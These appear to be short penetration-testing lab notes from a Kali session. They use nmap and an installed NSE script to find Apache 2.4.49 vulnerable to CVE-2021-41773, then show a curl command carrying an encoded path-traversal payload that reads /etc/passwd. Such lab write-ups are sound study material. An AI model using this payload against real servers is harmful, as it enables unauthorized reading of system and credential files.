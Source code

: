 sudo nmap -sV -p 443 --script "vuln" 192.168.50.124                  ---to find vulnerabilities

sudo cp /home/kali/Downloads/http-vuln-cve-2021-41773.nse /usr/share/nmap/scripts/http-vuln-cve2021-41773.nse
sudo nmap --script-updatedb                                    ---- move from downloads to nmap

sudo nmap -sV -p 443 --script "http-vuln-cve2021-41773" 192.168.50.124
Using the vulnerabilities that you found after getting the CVE

└─$ sudo nmap -sV -p 443 --script "http-vuln-cve-2021-41773.nse" 192.168.211.13
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-26 12:40 EDT
Nmap scan report for 192.168.211.13
Host is up (0.021s latency).

PORT    STATE SERVICE VERSION
443/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-server-header: Apache/2.4.49 (Unix)
| http-vuln-cve-2021-41773: 
|   VULNERABLE:
|   Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49
|     State: VULNERABLE
|               A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions.
|           
|     Disclosure date: 2021-10-05
|     Check results:
|       
|         Verify arbitrary file read: https://192.168.211.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
|      
Use the arbitrary file read to curl it
┌──(hollacosta㉿kali1)-[~/Downloads]
└─$ curl 'http://192.168.211.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd'



